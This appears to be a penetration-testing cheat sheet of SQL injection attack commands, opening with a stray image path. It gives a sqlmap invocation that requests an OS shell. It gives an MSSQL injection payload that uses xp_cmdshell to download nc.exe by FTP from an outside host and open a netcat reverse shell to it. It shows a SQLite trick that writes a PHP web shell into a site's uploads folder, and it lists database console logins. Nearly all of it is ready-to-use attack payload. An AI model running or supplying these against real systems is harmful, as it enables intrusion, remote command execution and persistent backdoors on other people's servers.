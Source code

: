 

----
## sqlmap; post-request - captured request 
via Burp Proxy 
via Save Item to File.

sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10



##  netcat reverse shell via mssql injection when xp_cmdshell is available

1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--



### SQLite Injection to Shell or Backdoor

ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');


### MS-SQL Console

mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password